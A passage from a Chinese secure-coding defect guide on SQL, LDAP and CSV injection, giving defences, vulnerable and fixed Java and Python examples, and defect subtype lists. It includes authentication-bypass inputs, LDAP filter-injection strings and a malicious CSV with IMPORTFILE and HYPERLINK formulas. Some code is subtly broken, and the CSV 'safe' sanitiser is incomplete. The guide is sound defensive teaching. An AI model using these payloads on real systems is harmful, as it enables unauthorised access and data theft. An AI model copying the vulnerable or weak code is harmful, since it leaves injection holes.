| **数据库** | **特殊字符** | **描述** | **转义序列** |
| ----------- | :---: | ----------------------- | -----------------|
| Oracle      | `%` | 百分号：任意字符（&gt;=0）  | `/% escape '/'`    |
| Oracle      | `_` | 下划线：任何单字节字符      | `/_ escape '/'`    |
| Oracle      | `/` | 斜线：转义字符              | `// escape '/'`    |
| MySQL       | `\` | 反斜杠                     | `\\`               |
| MySQL       | `%` | 百分号：任意字符（&gt;=0）  | `\%`               |
| MySQL       | `_` | 下划线：任意单字节字符      | `\_`               |
| DB2         | `%` | 百分号：任意字符（&gt;=0）  | `/% escape '/'`    |
| DB2         | `_` | 下划线：任何单字节字符      | `/_ escape '/'`    |
| SQL Server  | `[` | 左方括号：转义字符          | `[[]`              |
| SQL Server  | `_` | 下划线：任意字符            | `[_]`              |
| SQL Server  | `%` | 百分号：任意字符（&gt;=0）  | `[%]`              |
| SQL Server  | `^` | 插入符号：排除下列字符      | `[^]`              |

**开发者测试**
- 策略1：单元测试
  编写测试用例，模拟SQL注入攻击，验证防护措施的有效性。

**代码Review**
- 策略1：检查使用参数化查询
  1. 检查所有数据库操作：确保所有SQL查询都使用参数化查询，如PreparedStatement或ORM框架。
  2. 避免字符串拼接：杜绝直接拼接用户输入到SQL语句中。
- 策略2：检查验证和过滤用户输入
  1. 输入验证：检查所有用户输入，确保其符合预期的格式和类型。
  2. 输入过滤：移除或转义潜在的危险字符，如单引号、分号等。
- 策略3：检查动态SQL拼接
  1. 识别动态拼接：查找所有动态拼接SQL的地方，评估其风险。
  2. 建议改用ORM：推荐使用ORM框架，减少直接拼接SQL的机会。
- 策略4：源码安全审计
  1. 关键字搜索：
  ① 如Java关键字：`Statement 、.execute 、.executeQuery、jdbcTemplate、queryForInt、  queryForObject、queryForMap、getConnection等`，走读代码有无外部可控字符串拼接到sql语句。
  ② 如Python关键字：
  `callproc、execute、executemany、gsql、zsql等`。
  ③ 开源组件关键字：
  `real_sql、SQLAlchemy等`。

**编译构建**
- 策略1：集成安全工具
  在构建过程中使用静态分析工具（如CodeCheck平台、spotbugs、SonarQube、Checkmarx或FindBugs扫描代码），自动检测潜在问题。
- 策略2：更新依赖库
  确保所有依赖库为最新版本，避免已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略3：安全插件
  集成安全插件（如OWASP Dependency-Check），增强构建过程的安全性。

**代码检查**
- 策略1：工具静态安全扫描
  codecheck静态代码检测工具；
- 策略2：工具动态安全扫描
  动态fuzz工具；AppScan工具；sqlmap工具；

**集成测试**
- 策略1：渗透测试
  使用工具模拟SQL注入攻击，验证防护措施的有效性。示例：使用burpsuit抓包；使用OWASP ZAP测试应用接口。
- 策略2：自动化测试
  编写单元测试和集成测试，确保安全措施在开发和部署过程中有效。示例：使用工具如动态fuzz工具；AppScan工具；sqlmap工具。
- 策略3：手动审查
  定期手动检查代码，特别是高风险区域。

**示例**
**案例1: 通过`参数化查询`+`PreparedStatement`防止用户登录功能的SQL注入问题**
**语言: **JAVA

**描述**
用户登录功能，用户输入用户名和密码，系统查询数据库验证用户是否存在有SQL注入漏洞。使用PreparedStatement来防止SQL注入。

**案例分析**
直接将用户输入的username和password拼接到SQL语句中，没有进行任何验证或转义。
攻击者可以通过输入特殊字符（如' OR '1'='1）来改变SQL语句的逻辑，从而绕过身份验证。
示例攻击：
用户名输入：`' OR '1'='1`
密码输入：`' OR '1'='1`
生成的SQL语句：
```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1'
```
这将导致查询返回所有用户，攻击者无需正确密码即可登录。

**反例**
```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;

public class LoginServlet {
    public boolean login(String username, String password) {
        String URL = "jdbc:mysql://localhost:3306/testdb"; // 此处为了代码完整硬编码，真实项目采用数据库或者配置文件保存。
        String DBUSER = "root"; // 此处为了代码完整硬编码，真实项目采用数据库或者配置文件加密保存。
        String DBPASSWORD = "password"; // 此处为了代码完整硬编码，真实项目采用数据库或者配置文件加密保存。

        // 危险：直接使用用户传入数据进行SQL拼接
        String query = "SELECT * FROM users WHERE username = '" + username + "' AND password = '" + password + "'";

        try (Connection conn = DriverManager.getConnection(URL, DBUSER, DBPASSWORD);
             Statement stmt = conn.createStatement();
             ResultSet rs = stmt.executeQuery(query)) {

            return rs.next();
        } catch (SQLException e) {
            // ...异常处理
            return false;
        }
    }
}
```

**正例**
```java
import java.sql.Connection;
import java.sql.DriverManager;
import java.sql.PreparedStatement;
import java.sql.ResultSet;
import java.sql.SQLException;

public class LoginServlet {
    public boolean login(String username, String password) {
        String URL = "jdbc:mysql://localhost:3306/testdb"; // 此处为了代码完整硬编码，真实项目采用数据库或者配置文件保存。
        String DBUSER = "root"; // 此处为了代码完整硬编码，真实项目采用数据库或者配置文件加密保存。
        String DBPASSWORD = "password"; // 此处为了代码完整硬编码，真实项目采用数据库或者配置文件加密保存。

        // 使用`?`占位符参数化查询
        String query = "SELECT * FROM users WHERE username = ? AND password = ?";
        
        try (Connection conn = DriverManager.getConnection(URL, DBUSER, DBPASSWORD);
             PreparedStatement pstmt = conn.prepareStatement(query)) {
            
            pstmt.setString(1, username);
            pstmt.setString(2, password);
            
            try (ResultSet rs = pstmt.executeQuery()) {
                return rs.next();
            }
        } catch (SQLException e) {
            // ...异常处理
            return false;
        }
    }
}
```

**修复建议**
- 使用`PreparedStatement`预编译SQL语句，参数用`?`占位符代替。
- 通过setString方法设置参数，确保输入被正确转义，防止SQL注入。

**案例2: 通过`参数化查询`防止用户登录功能的SQL注入问题**
**语言: **PYTHON

**描述**
一个简单的Web应用程序，该程序允许用户通过用户名和密码进行登录。应用程序使用Python和SQLite数据库来存储用户信息。该程序存在一个SQL注入漏洞，攻击者可以利用该漏洞绕过身份验证。

**案例分析**
- 代码直接将用户输入的`username`和`password`拼接到SQL查询字符串中，没有对输入进行任何验证或转义。
- 攻击者可以通过构造特殊的输入（如`admin' OR '1'='1`）来改变SQL查询逻辑，从而绕过身份验证。
- 攻击者输入`username = "admin' OR '1'='1"，password = "anything"`。
- 生成的SQL查询为：`SELECT * FROM users WHERE username='admin' OR '1'='1' AND password='anything'`
- 由于`'1'='1'`总是为真，查询会返回所有用户的记录，导致攻击者无需正确密码即可登录。

**反例**
```PYTHON
import sqlite3

def login(username, password):
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    
    # 存在SQL注入漏洞的查询
    query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    cursor.execute(query)
    
    result = cursor.fetchone()
    if result:
        print("登录成功！")
    else:
        print("用户名或密码错误！")
    
    conn.close()

# 测试登录
login('admin', 'admin123')  # 正常登录
login("admin' OR '1'='1", "anything")  # 攻击者输入
```

**正例**
```PYTHON
import sqlite3

def login(username, password):
    conn = sqlite3.connect('users.db')
    cursor = conn.cursor()
    
    # 修复后的安全查询
    query = "SELECT * FROM users WHERE username=? AND password=?"
    cursor.execute(query, (username, password))
    
    result = cursor.fetchone()
    if result:
        print("登录成功！")
    else:
        print("用户名或密码错误！")
    
    conn.close()

# 测试登录
login('admin', 'admin123')  # 正常登录
login("admin' OR '1'='1", "anything")  # 攻击者输入（无法绕过验证）
```

**修复建议**
- 使用参数化查询：使用SQL参数化查询，避免将用户输入直接拼接到SQL语句中。

#### CWD-1101-000 SQL注入

#### CWD-1101-001 【使用Hibernate框架操作数据库产生的SQL注入问题】SQL语句外部可控时导致SQL注入的问题

#### CWD-1101-002 【使用Hibernate框架操作数据库产生的SQL注入问题】未使用hql, qbc方式查询处理数据，使用原生的SQL执行方式导致SQL注入

#### CWD-1101-003 【使用Mybatis操作数据库产生的SQL注入问题】Mybatis的like语句通配符注入，未对'%','_'等通配符进行转义操作

#### CWD-1101-004 【使用Mybatis操作数据库产生的SQL注入问题】参数占位符使用不当：Mybatis注解方式SQL语句应使用预编译的参数使用了$占位符，本质上是拼接字符串方式，应采用#占位符实现预编译的能力

#### CWD-1101-005 【使用Mybatis操作数据库产生的SQL注入问题】参数占位符使用不当：sql mapper配置文件应使用预编译的参数使用了$占位符，本质上是拼接字符串方式，应采用#占位符实现预编译的能力

#### CWD-1101-006 【使用Mybatis操作数据库产生的SQL注入问题】基于Mybatis自定义的Provider(@SelectProvider、@UpdateProvider、@InsertProvider、@DeleteProvider)构造不安全的SQL

#### CWD-1101-007 【使用Mybatis操作数据库产生的SQL注入问题】无法预编译的参数(order by、表名、group by、limit等参数)没有进行白名单等方式的正确校验

#### CWD-1101-008 【使用JDO操作数据库产生的SQL注入问题】不安全的sql语句拼接产生的sql注入问题

#### CWD-1101-009 【使用JDO操作数据库产生的SQL注入问题】使用JDO产生的任意sql执行

#### CWD-1101-010 【使用JPA框架操作数据库产生的SQL注入问题】任意sql执行

#### CWD-1101-011 【使用JPA框架操作数据库产生的SQL注入问题】直接执行外部数据拼接的sql/hql语句，存在SQL注入风险

#### CWD-1101-012 【使用JDBC操作数据库产生的SQL注入问题】from, group by, order by, limit等无法预编译字段拼接前没有经过白名单校验造成SQL注入

#### CWD-1101-013 【使用JDBC操作数据库产生的SQL注入问题】like语句通配符产生的SQL注入，未对'%','_'等通配符进行转义操作

#### CWD-1101-014 【使用JDBC操作数据库产生的SQL注入问题】不安全的SQL字符串拼接导致的SQL注入

#### CWD-1101-015 【使用JDBC操作数据库产生的SQL注入问题】使用JDBC产生的任意sql执行

#### CWD-1101-016 【BME】使用BME框架SQL语句外部可控时导致SQL注入的问题

#### CWD-1101-017 【使用BME框架操作数据库产生的SQL注入问题】参数占位符使用不当：naming-sql配置文件应使用预编译的参数使用了<%:var%>动态参数，本质上是直接拼接字符串方式，应采用:var占位符实现预编译的能力

#### CWD-1101-018 【使用BME框架操作数据库产生的SQL注入问题】无法预编译的参数(order by、表名、in、limit等参数)没有进行白名单等方式的正确校验

#### CWD-1101-019 【使用BME框架操作数据库产生的SQL注入问题】直接执行外部数据拼接的sql语句，导致注入风险

#### CWD-1101-020 【Django】直接执行外部数据拼接的SQL语句

#### CWD-1101-021 【DAS】直接执行外部数据拼接的SQL语句

#### CWD-1101-022 【DAS】使用占位符拼接SQL参数

#### CWD-1101-023 【DAS】使用字符串占位符拼接字符串

#### CWD-1101-024 【GORM】直接执行外部数据拼接的SQL语句

#### CWD-1101-025 【Pymongo】直接执行外部数据拼接的SQL语句

#### CWD-1101-026 【MyBatis-Plus】直接执行外部数据拼接的SQL语句

#### CWD-1101-027 【C/C++】使用数据库API执行不安全的SQL字符串拼接导致的SQL注入

**业界缺陷**

- [CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)
---

# CWD-1112 LDAP注入

**别名: **对LDAP查询中使用的特殊元素中和不当（“LDAP注入”）；未能清理LDAP查询中的数据（“LDAP注入”）

**描述**
直接使用来自受外部影响的输入构造全部或部分LDAP查询，未进行处理可能修改预期LDAP查询的特殊元素。


- LDAP(Lightweight Directory Access Protocol):轻量级目录访问协议，是用于访问目录服务（特别是基于X.500的目录服务）的轻量级客户端服务器协议，它通过TCP/IP传输服务运行。- LDAP注入的攻击手法和SQL注入的原理非常相似，在有漏洞的环境中，查询参数没有得到合适的过滤，因而攻击者可以注入任意恶意代码。
**语言: **JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：最小权限原则
  确保LDAP查询仅具有执行必要操作的权限，避免使用具有高权限的账户进行查询。例如，不要使用管理员账户执行普通用户的查询操作。
- 策略2：日志和监控
  记录所有LDAP查询操作，并监控异常行为。如果检测到异常的查询模式（如包含通配符或特殊字符），及时发出警报。
- 策略3：使用安全的LDAP库
  确保使用的LDAP库是最新版本，并且支持安全的查询方式。例如，使用支持参数化查询的库，而不是手动拼接查询字符串。
- 策略4：查询结果限制
  设计默认返回字段，排除敏感属性（如userPassword）
- 策略5：分层防御
  设计前端验证层、业务逻辑层和LDAP访问层的多层验证机制

**编码**
- 策略1：输入验证
  假设所有输入都是恶意的。使用“接受已知良好”的输入验证策略，即使用严格符合规范的可接受输入列表。拒绝任何不严格符合规范的输入，或者将其转换为符合规范的东西。执行输入验证时，请考虑所有可能相关的属性，包括长度、输入类型、可接受值的完整范围、缺失或额外输入、语法、相关字段的一致性以及对业务规则的一致性。（如 `*`、`(`、`)`、`&` 等）。
- 策略2：特殊字符转义
  对所有用户提供的输入中的LDAP特殊字符进行转义，需要转义的字符包括：`\` `*` `(` `)` `\0`等。
- 策略3：使用参数化查询
  避免将用户输入直接拼接到LDAP查询中，而是使用参数化查询。参数化查询会将输入作为参数传递，而不是直接拼接到查询语句中，从而防止注入攻击。
  ```java
  String filter = "(&(objectClass=user)(cn={0}))";
  ctx.search(baseDN, filter, new Object[]{escapedInput}, controls);  ```

**开发者测试**
- 策略1：单元测试用例
  ```java
  @Test
  void testLDAPInjectionDefense() {
      // 测试转义功能
      assertEquals("\\2a", ldapService.escapeLDAP("*"));
      
      // 测试注入尝试被拦截
      assertThrows(SecurityException.class, () -> {
          ldapService.searchUsers("*)(uid=*))(|(objectClass=*", "IT");
      });
  }
  ```
- 策略2：边界测试
  超长输入（>1024字符），包含所有特殊字符的输入，NULL/空字符串输入。

**代码Review**
- 策略1：模式识别
  查找字符串拼接（`"cn=" + userInput`），查找直接使用search()方法未转义的情况。
- 策略2：代码走读
  所有构造LDAP过滤器的代码路径，动态DN构造的代码，特权操作（修改/删除操作）。
- 策略3：检查处理方式
  是否使用参数化查询，是否包含输入验证，是否转义特殊字符，错误处理是否安全。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全编译选项
  启用所有安全警告（如GCC的`-Wformat-security`），将安全警告视为错误（`-Werror`）。

**代码检查**
- 策略1：静态代码分析
  使用工具如CodeCheck平台扫描代码，识别潜在风险。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。
- 策略3：依赖库检查
  确保使用的相关库是最新版本，修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。

**集成测试**
- 策略1：自动化扫描
  使用Burp Suite扫描LDAP接口，配置ZAP（Zed Attack Proxy）的LDAP注入扫描策略。
- 策略2：生产前测试
  在准生产环境执行LDAP查询负载测试，监控异常查询模式（如大量使用*的查询）。
- 策略3：日志监控
  配置日志系统，监控和日志记录，及时发现潜在问题。

**示例**
**案例1: 直接使用外部数据执行LDAP查询**
**语言: **JAVA

**描述**
一个使用LDAP（轻量级目录访问协议）作为员工信息管理系统，允许员工通过Web界面搜索同事的联系信息。系统接收用户输入的搜索条件，构造LDAP查询语句并在目录服务器上执行。由于缺乏输入验证和参数化处理，攻击者能够构造恶意输入实施LDAP注入攻击，获取敏感员工信息或执行未授权操作。

**案例分析**
攻击者可以：
1. 通过输入 `*)(objectClass=*))(|(objectClass=*` 作为用户名，绕过认证获取所有用户；
2. 通过输入 `*)(uid=admin` 尝试获取管理员账户信息；
3. 通过输入 `*)(|(password=*` 尝试获取密码字段（如果可读）。

**反例**
```java
// 不安全的LDAP查询构造方式
public List<User> searchUsers(String username, String department) {
    String searchFilter = "(&(objectClass=user)(cn=" + username + ")(department=" + department + "))";
    
    // 创建LDAP搜索请求
    SearchControls controls = new SearchControls();
    controls.setSearchScope(SearchControls.SUBTREE_SCOPE);
    
    // 【危险】：直接执行LDAP查询
    NamingEnumeration<SearchResult> results = context.search("ou=employees,dc=company,dc=com", 
        searchFilter, controls);
    
    // 处理结果...
    return processResults(results);
}
```

**正例**
```java
// 安全的LDAP查询构造方式
public List<User> searchUsers(String username, String department) {
    // 验证输入
    if (!isValidInput(username) || !isValidInput(department)) {
        throw new IllegalArgumentException("Invalid input detected");
    }
    
    // 使用参数化查询
    String searchFilter = "(&(objectClass=user)(cn={0})(department={1}))";
    
    // 创建LDAP搜索请求
    SearchControls controls = new SearchControls();
    controls.setSearchScope(SearchControls.SUBTREE_SCOPE);
    
    // 转义特殊字符并执行查询
    NamingEnumeration<SearchResult> results = context.search("ou=employees,dc=company,dc=com", 
        searchFilter, new Object[]{escapeLDAP(username), escapeLDAP(department)}, controls);
    
    // 处理结果...
    return processResults(results);
}

// LDAP特殊字符转义方法
private String escapeLDAP(String input) {
    if (input == null) {
        return null;
    }
    StringBuilder sb = new StringBuilder();
    for (int i = 0; i < input.length(); i++) {
        char c = input.charAt(i);
        switch (c) {
            case '\\':
                sb.append("\\5c");
                break;
            case '*':
                sb.append("\\2a");
                break;
            case '(':
                sb.append("\\28");
                break;
            case ')':
                sb.append("\\29");
                break;
            case '\0':
                sb.append("\\00");
                break;
            default:
                sb.append(c);
        }
    }
    return sb.toString();
}

// 输入验证方法
private boolean isValidInput(String input) {
    // 检查输入长度
    if (input == null || input.length() > 64) {
        return false;
    }
    // 检查输入格式（示例：只允许字母数字和特定字符）
    return input.matches("^[a-zA-Z0-9 .\\-@_]+$");
}
```

**修复建议**
- 输入验证：实施严格的白名单输入验证，只允许预期的字符集，验证输入长度和格式是否符合预期。
- 特殊字符转义：对所有用户提供的输入中的LDAP特殊字符进行转义，需要转义的字符包括：`\` `*` `(` `)` `\0`等。
- 使用参数化查询：使用LDAP API提供的参数化查询功能，而不是字符串拼接，大多数LDAP库都支持预编译的搜索过滤器与参数替换。

#### CWD-1112-000 LDAP注入

#### CWD-1112-001 特殊字符未校验，绕过认证执行敏感操作

**业界缺陷**

- [CWE-90: Improper Neutralization of Special Elements used in an LDAP Query ('LDAP Injection')](https://cwe.mitre.org/data/definitions/90.html)
---

# CWD-1113 CSV注入

**别名: **CSV文件中公式元素中和不当；Excel宏注入；公式注入；DDE代码注入

**描述**
将用户提供的信息保存到 CSV文件中，但未处理或不正确处理 CSV文件中的特殊元素，这些特殊元素在电子表格打开 CSV文件时可能被解释为命令。用户提供的数据通常保存到传统的数据库中。这些数据可以导出为 CSV文件，用户可以使用Excel、Numbers或Calc等电子表格软件读取数据。此软件将以`=`开头的条目解释为公式，然后由电子表格软件执行。软件的公式语言通常允许方法访问超链接或本地命令行，并且经常允许足够的字符来调用整个脚本。攻击者可以填充数据字段，这些数据字段在保存到 CSV文件时，可能会在电子表格软件自动执行时尝试信息泄漏或其他恶意活动，例如：


- 通过利用电子表格软件中的漏洞（如CVE-2014-3524）劫持用户的计算机。- 利用用户倾向于忽略从自己网站下载的电子表格中的安全警告，劫持用户的计算机。- 从电子表格或其他打开的电子表格中提取内容。
**语言: **JAVA

**严重等级**
严重

**cleancode特征**
安全,可靠

**缺陷防护全景**
**软件实现设计**
- 策略1：使用安全的CSV解析库
  使用支持公式清理和验证的CSV解析库，示例：`OpenCSV`。
  禁用危险的函数（如 `IMPORTFILE` 或 `HYPERLINK`），确保公式不会执行恶意操作。
- 策略2：最小权限原则
  确保CSV文件解析过程运行在受限的环境中，限制其对文件系统和网络的访问权限。示例：使用沙盒技术隔离CSV解析过程，防止恶意代码对系统造成影响。
- 策略3：日志和监控
  记录所有上传的CSV文件及其内容，以便在发生安全事件时进行追溯。示例：监控CSV解析过程中的异常行为，例如频繁的文件读取或网络请求。

**编码**
- 策略1：使用安全的CSV解析库
  使用`OpenCSV`库来解析CSV文件，避免直接执行恶意公式。
- 策略2：输入校验
  在解析CSV文件之前，对所有字段进行严格的验证，确保字段内容符合预期的格式和类型。示例：检查输入是否以`=`开头（这通常是公式前缀），如果是，则删除或转义`=`。
- 策略3：输出转义
  生成CSV输出时，确保在存储到生成的CSV之前，有效地从所有数据中转义或删除公式特殊元字符。特殊字符包括`=`、`+`、`-`、`@`、`0x09`（Tab）、`0x0D`（回车）。仅确保不受信任的用户输入不以这些字符开头是不够的。还需要注意字段分隔符(如`,` 、`;`)和引号(如`'` 、`"`)，因为攻击者可以使用它来启动一个新的单元格，然后将危险字符放在用户输入的内容中。
  对CSV的每个字段应用以下清理，以便电子表格编辑器将其内容作为文本读取：
  1. 在每个单元格字段前面加上`'`（单引号），这将阻止Excel执行公式。示例：`=1+2";=1+2`处理为`'=1+2";=1+2`
  2. 使用额外的双引号转义每个双引号。示例：`'=1+2";=1+2`处理为`'=1+2"";=1+2`
  3. 将每个单元格字段内容括在双引号中。示例：`'=1+2"";=1+2`处理为`"'=1+2"";=1+2"`
     经过转义处理，输入项`=1+2";=1+2`最终处理为`"'=1+2"";=1+2"`
     参考[《OWASP CSV_Injection》](https://owasp.org/www-community/attacks/CSV_Injection#)
- 策略4：避免字符串拼接
  使用参数化方法或CSV库生成CSV内容，避免直接拼接字符串，防止注入风险。

**开发者测试**
- 策略1：编写测试用例
  模拟各种攻击输入，包括特殊字符、长字符串、空值等，确保系统能正确处理并防止注入。

**代码Review**
- 策略1：检查CSV生成代码
  确保所有用户输入在写入CSV前被正确转义或验证。
- 策略2：审查字符串拼接
  避免使用不安全的字符串拼接方法，确保使用安全的CSV库和方法。

**编译构建**
- 策略1：自动化构建工具
  集成安全检查，如Jenkins运行静态分析工具，clouddragon、libing、fuxi流水线。
- 策略2：集成安全插件
  在构建过程中集成安全插件（如CodeCheck平台扫描代码），自动检查代码中的安全漏洞。
- 策略3：依赖管理
  检查第三方库，及时更新以修复已知漏洞。示例：采用fossbot进行三方件识别跟踪，或者遵从三方件版本火车。
- 策略4：安全配置
  在构建时配置安全设置，如编译选项，确保代码安全。
- 策略5：编译警告
  配置编译器警告，提醒开发者潜在的不安全代码模式。

**代码检查**
- 策略1：使用静态分析工具
  扫描代码中可能存在的CSV注入漏洞，识别未正确转义的字符或不安全的字符串拼接操作。示例：使用CodeCheck进行代码检查。
- 策略2：动态分析
  运行时监控，检测异常行为。示例：使用SecFuzz进行扫描。

**集成测试**
- 策略1：环境测试
  在实际环境中测试CSV生成功能，确保在不同情况下都能正确处理用户输入，防止注入攻击。
- 策略2：跨平台测试
  测试不同浏览器、操作系统或设备，确保CSV文件在各种环境下都是安全的。

**示例**
**案例1: 输入验证并清理特殊字符预防CSV注入**
**语言: **JAVA

**描述**
一个Java Web应用程序，允许用户上传CSV文件以导入数据。系统后端使用`OpenCSV`库来解析 CSV文件，并将数据存储到数据库中。然而，如果系统没有对CSV文件中的内容进行验证和清理，攻击者可以通过上传包含恶意公式的 CSV文件，触发 CSV注入漏洞。

**案例分析**
1. 攻击者构造恶意CSV文件：攻击者构造了一个包含恶意公式的CSV文件，文件内容如下：
```vb
Name,Email,Score
Alice,alice@example.com,=IFERROR(IMPORTFILE("C:\Users\*\Documents\*"), "")
Bob,bob@example.com,=HYPERLINK("http://malicious.com", "Click Me")
```
2. 上传恶意CSV文件：攻击者将构造好的CSV文件上传到Java Web应用程序。
3. 系统解析CSV文件：系统后端使用`OpenCSV`库解析CSV文件，直接将公式视为普通文本处理。
4. 恶意公式被触发：由于系统没有对公式进行验证或清理，恶意公式被解析并执行，导致敏感数据泄露或恶意操作被执行。

**反例**
```java
import com.opencsv.CSVReader;
import com.opencsv.exceptions.CsvValidationException;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class CSVProcessor {

    public static void main(String[] args) {
        String csvFile = "input.csv";
        processCSV(csvFile);
    }

    public static void processCSV(String csvFile) {
        try (CSVReader reader = new CSVReader(new FileReader(csvFile))) {
            // 读取CSV文件的所有行
            List<String[]> rows = reader.readAll();

            // 危险：未验证和处理数据，直接存储。
            List<String[]> cleanedRows = new ArrayList<>();
            for (String[] row : rows) {
                String[] cleanedRow = new String[row.length];
                for (int i = 0; i < row.length; i++) {
                    cleanedRow[i] = row[i];
                }
                cleanedRows.add(cleanedRow);
            }

            // 存储到数据库或其他处理逻辑
            storeToDatabase(cleanedRows);

        } catch (IOException | CsvValidationException e) {
            // ...处理异常
        }
    }

    // 存储到数据库的方法（示例）
    private static void storeToDatabase(List<String[]> data) {
        // ...数据库存储逻辑
    }
}
```

**正例**
```java
import com.opencsv.CSVReader;
import com.opencsv.exceptions.CsvValidationException;
import java.io.FileReader;
import java.io.IOException;
import java.util.ArrayList;
import java.util.List;

public class CSVProcessor {

    // 定义允许的字符集合
    private static final String ALLOWED_CHARACTERS = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_@.";

    public static void main(String[] args) {
        String csvFile = "input.csv";
        processCSV(csvFile);
    }

    public static void processCSV(String csvFile) {
        try (CSVReader reader = new CSVReader(new FileReader(csvFile))) {
            // 读取CSV文件的所有行
            List<String[]> rows = reader.readAll();

            // 验证和清理每一行数据
            List<String[]> cleanedRows = new ArrayList<>();
            for (String[] row : rows) {
                String[] cleanedRow = new String[row.length];
                for (int i = 0; i < row.length; i++) {
                    cleanedRow[i] = sanitizeInput(row[i]);
                }
                cleanedRows.add(cleanedRow);
            }

            // 存储到数据库或其他处理逻辑
            storeToDatabase(cleanedRows);

        } catch (IOException | CsvValidationException e) {
            // ...处理异常
        }
    }

    // 输入验证和清理方法
    private static String sanitizeInput(String input) {
        // 1. 检查输入是否包含恶意字符（如公式前缀 '='）
        if (input.startsWith("=")) {
            // 如果是恶意公式，可以选择删除或转义
            return input.replace("=", "");
        }

        // 2. 验证输入是否只包含允许的字符
        for (char c : input.toCharArray()) {
            if (!ALLOWED_CHARACTERS.contains(String.valueOf(c))) {
                // 如果包含非法字符，抛出异常或清理
                return input.replace(c, ' ');
            }
        }

        return input;
    }

    // 存储到数据库的方法（示例）
    private static void storeToDatabase(List<String[]> data) {
        // ...数据库存储逻辑
    }
}
```

**修复建议**
- 输入验证和清理：`sanitizeInput` 方法用于验证和清理输入数据。
检查输入是否以`=`开头（这通常是公式前缀），如果是，则删除或转义`=`。
验证输入是否只包含允许的字符（如字母、数字、`_`、`@` 和`.`）。
- 使用安全的CSV解析库：使用`OpenCSV`库来解析CSV文件，避免直接执行恶意公式。

**案例2: 转义特殊字符`=`预防CSV注入**
**语言: **JAVA

**描述**
CSV注入是一种安全漏洞，攻击者通过在CSV文件中插入恶意公式，导致解析时执行恶意代码，可能造成数据泄露或其他安全问题。例如，攻击者上传一个包含恶意公式的CSV文件，导致解析时执行删除文件或窃取数据的操作。

**反例**
```java
import java.io.FileReader;
import java.io.IOException;
import org.apache.commons.csv.CSVParser;
import org.apache.commons.csv.CSVRecord;

public class CSVInjectionExample {
    public static void main(String[] args) {
        try (CSVParser parser = new CSVParser(new FileReader("example.csv"), CSVParser.DEFAULT_SETTINGS)) {
            for (CSVRecord record : parser) {
                String formula = record.get(0);
                // 危险：直接执行公式，可能导致注入
                evaluateFormula(formula);
            }
        } catch (IOException e) {
            // 异常处理...;
        }
    }

    private static void evaluateFormula(String formula) {
        // 假设这是一个执行公式的函数
        // 恶意公式可能导致代码执行
        ...("Evaluating formula: " + formula);
        // 模拟执行，实际可能更危险
        if (formula.contains("=DELETION_FUNCTION()")) {
            log.info("Deleting critical files...");
            // 实际代码可能执行文件删除或其他恶意操作
        }
    }
}
```

**正例**
```java
import java.io.FileReader;
import java.io.IOException;
import org.apache.commons.csv.CSVParser;
import org.apache.commons.csv.CSVRecord;

public class SafeCSVProcessing {
    public static void main(String[] args) {
        try (CSVParser parser = new CSVParser(new FileReader("example.csv"), CSVParser.DEFAULT_SETTINGS)) {
            for (CSVRecord record : parser) {
                String formula = record.get(0);
                // 安全处理：转义特殊字符或使用安全的解析方法
                String safeFormula = sanitizeFormula(formula);
                evaluateFormula(safeFormula);
            }
        } catch (IOException e) {
            // 异常处理...;
        }
    }

    private static String sanitizeFormula(String formula) {
        // 转义特殊字符，防止注入
        return formula.replace("=", "");
    }

    private static void evaluateFormula(String formula) {
        // 安全执行公式
        ...("Evaluating safe formula: " + formula);
        // 检查是否有恶意模式
        if (formula.contains("DELETION_FUNCTION")) {
            throw new SecurityException("Malicious formula detected");
        }
    }
}
```

**修复建议**
- 转义特殊字符`=`防止CSV注入。`sanitizeInput`方法用于验证和清理输入数据，检查输入是否以`=`开头（这通常是公式前缀），如果是，则删除或转义`=`。

#### CWD-1113-000 CSV注入

#### CWD-1113-001 【内容外部控制】按照csv文件格式，使用原始的JDK文件操作动态构造csv文件内容，并输出csv后缀文件

#### CWD-1113-002 【创建Excel、CSV内容时，(部分)内容数据来源外部控制】使用com.csvreader.CsvWriter写CSV文件，内容来自不可信数据，直接写CSV文件

#### CWD-1113-003 【创建Excel、CSV内容时，(部分)内容数据来源外部控制】使用com.opencsv.CSVWriter写CSV文件，内容来自不可信数据，直接写CSV文件

#### CWD-1113-004 【创建Excel、CSV内容时，(部分)内容数据来源外部控制】使用JasperReports渲染输出csv文件时，数据内容不可信导致DDE注入问题(导出xls、xlsx表格文件时无问题)

#### CWD-1113-005 【创建Excel、CSV内容时，(部分)内容数据来源外部控制】使用org.apache.commons写CSV文件，内容来自不可信数据

#### CWD-1113-006 【文件外部控制】多用户系统中存在上传CSV/Excel文件，并可被其它用户下载的场景。用户从可信的平台下载的文件，警惕性低，用户容易受到攻击

#### CWD-1113-007 【创建Excel、CSV内容时，(部分)内容数据来源外部控制】使用org.apache.poi生成Excel文件，内容来自不可信数据，直接写Excel文件

#### CWD-1113-008 【创建Excel、CSV内容时，(部分)内容数据来源外部控制】使用com.alibaba.excel.EasyExcel生成Excel文件，内容来自不可信数据，直接写Excel文件

**业界缺陷**

- [CWE-1236: Improper Neutralization of Formula Elements in a CSV File](https://cwe.mitre.org/data/definitions/1236.html)
---

# CWD-1114 XML外部实体攻击（“XXE”）

